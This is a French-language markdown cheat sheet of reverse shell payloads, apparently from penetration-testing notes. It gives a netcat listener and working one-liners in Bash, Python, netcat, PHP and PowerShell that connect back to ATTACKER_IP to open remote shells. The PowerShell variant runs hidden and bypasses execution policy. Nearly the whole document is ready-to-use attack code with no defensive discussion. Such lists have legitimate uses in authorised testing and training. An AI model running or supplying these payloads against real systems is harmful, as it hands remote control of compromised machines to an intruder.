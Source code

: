 # 🐚 Reverse Shells

[← Retour à la table des matières](../README.md)

## 📋 Table des Matières
- [Listener (Attaquant)](#listener-attaquant)
- [Shells Linux](#shells-linux)
  - [Bash](#bash)
  - [Python](#python)
  - [Netcat](#netcat)
- [Shells Web](#shells-web)
  - [PHP](#php)
- [Shells Windows](#shells-windows)
  - [PowerShell](#powershell-windows)

## Listener (Attaquant)
```bash
nc -nvlp 1234
```

## Shells Linux

### Bash
```bash
/bin/bash -c 'bash -i>&/dev/tcp/ATTACKER_IP/1234 0>&1'
bash -i >& /dev/tcp/ATTACKER_IP/1234 0>&1
```

### Python
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Netcat
```bash
nc -e /bin/sh ATTACKER_IP 1234
nc -c /bin/sh ATTACKER_IP 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 1234 >/tmp/f
```

## Shells Web

### PHP
```php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/1234 0>&1'"); ?>
```

## Shells Windows

### PowerShell (Windows)
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "& {$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"
```